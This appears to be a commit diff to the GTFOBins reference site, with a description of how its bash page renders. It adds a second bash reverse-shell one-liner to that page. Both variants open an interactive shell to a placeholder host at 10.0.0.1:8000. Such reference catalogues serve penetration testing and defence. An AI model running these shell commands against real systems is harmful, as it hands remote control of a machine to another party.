

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide. Shown: the whole page at 80% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1849 px from its top, so only the background shows below that.

Commit message:
Add another bash reverse shell

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -37,5 +37,9 @@ functions:
       code: |
         RHOST=10.0.0.1
         RPORT=8000
-        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT;while read line 0<&5; do $line 2>&5 >&5; done
+        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
+    - code: |
+        RHOST=10.0.0.1
+        RPORT=8000
+        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT; while read line 0<&5; do $line 2>&5 >&5; done
 ---
```
